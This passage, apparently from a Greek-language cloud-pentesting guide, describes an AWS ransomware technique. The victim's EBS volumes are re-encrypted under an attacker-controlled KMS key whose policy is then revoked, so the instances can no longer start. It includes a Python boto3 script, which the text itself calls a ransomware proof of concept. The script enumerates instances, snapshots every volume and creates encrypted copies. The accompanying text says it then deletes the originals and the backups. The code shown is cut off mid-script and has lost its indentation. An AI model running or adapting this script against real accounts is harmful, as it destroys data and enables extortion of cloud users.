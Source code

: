 Περιμένετε για να εφαρμοστεί η νέα πολιτική κλειδιού. Στη συνέχεια, επιστρέψτε στον λογαριασμό του "θύματος" και προσπαθήστε να συνδέσετε έναν από τους νεοκρυπτογραφημένους όγκους EBS. Θα διαπιστώσετε ότι μπορείτε να συνδέσετε τον όγκο.

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

Ωστόσο, όταν προσπαθήσετε να επανεκκινήσετε πραγματικά την EC2 παρουσία με τον κρυπτογραφημένο όγκο EBS, θα αποτύχει και θα παραμείνει στην κατάσταση "εκκρεμής" επιστρέφοντας στην κατάσταση "σταματημένη" για πάντα, καθώς ο επισυναπτόμενος όγκος EBS δεν μπορεί να αποκρυπτογραφηθεί χρησιμοποιώντας το κλειδί, αφού η πολιτική κλειδιού δεν το επιτρέπει πλέον.

![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

Αυτό είναι το πρόγραμμα σε Python που χρησιμοποιήθηκε. Απαιτεί διαπιστευτήρια AWS για έναν λογαριασμό "θύμα" και μια δημόσια διαθέσιμη τιμή AWS ARN για το κλειδί που θα χρησιμοποιηθεί για την κρυπτογράφηση. Το πρόγραμμα θα δημιουργήσει κρυπτογραφημένα αντίγραφα ΟΛΩΝ των διαθέσιμων όγκων EBS που είναι συνδεδεμένοι με ΟΛΕΣ τις παρουσίες EC2 στον στοχευμένο λογαριασμό AWS, στη συνέχεια θα σταματήσει κάθε παρουσία EC2, θα αποσυνδέσει τους αρχικούς όγκους EBS, θα τους διαγράψει και, τέλος, θα διαγράψει όλα τα αντίγραφα ασφαλείας που χρησιμοποιήθηκαν κατά τη διαδικασία. Αυτό θα αφήσει μόνο κρυπτογραφημένους όγκους EBS στον στοχευμένο λογαριασμό "θύμα". ΧΡΗΣΙΜΟΠΟΙΗΣΤΕ ΑΥΤΟ ΤΟ ΠΡΟΓΡΑΜΜΑ ΜΟΝΟ ΣΕ ΈΝΑ ΠΕΡΙΒΑΛΛΟΝ ΔΟΚΙΜΗΣ, ΕΙΝΑΙ ΚΑΤΑΣΤΡΟΦΙΚΟ ΚΑΙ ΘΑ ΔΙΑΓΡΑΨΕΙ ΟΛΟΥΣ ΤΟΥΣ ΑΡΧΙΚΟΥΣ ΌΓΚΟΥΣ EBS. Μπορείτε να τους ανακτήσετε χρησιμοποιώντας το χρησιμοποιημένο κλειδί KMS και να τους αποκαταστήσετε στην αρχική τους κατάσταση μέσω αντιγράφων ασφαλείας, αλλά θέλω απλά να σας ενημερώσω ότι αυτό είναι ένα PoC ransomware στο τέλος της ημέρας.

```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
instances = ec2_client.describe_instances()
instance_volumes = {}
for reservation in instances['Reservations']:
for instance in reservation['Instances']:
instance_id = instance['InstanceId']
volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
instance_volumes[instance_id] = volumes
return instance_volumes

def snapshot_volumes(ec2_client, volumes):
snapshot_ids = []
for volume_id in volumes:
snapshot = ec2_client.create_snapshot(VolumeId=volume_id)
snapshot_ids.append(snapshot['SnapshotId'])
return snapshot_ids

def wait_for_snapshots(ec2_client, snapshot_ids):
for snapshot_id in snapshot_ids:
ec2_client.get_waiter('snapshot_completed').wait(SnapshotIds=[snapshot_id])

def create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn):
new_volume_ids = []
for snapshot_id in snapshot_ids:
snapshot_info = ec2_client.describe_snapshots(SnapshotIds=[snapshot_id])['Snapshots'][0]
volume_id = snapshot_info['VolumeId']
volume_info = ec2_client.describe_volumes(VolumeIds=[volume_id])['Volumes'][0]
availability_zone = volume_info['AvailabilityZone']

volume = ec2_client.create_volume(SnapshotId=snapshot_id, AvailabilityZone=availability_zone,
Encrypted=True, KmsKeyId=kms_key_arn)
new_volume_ids.append(volume['VolumeId'])
return new_volume_ids

def stop_instances(ec2_client, instance_ids):
```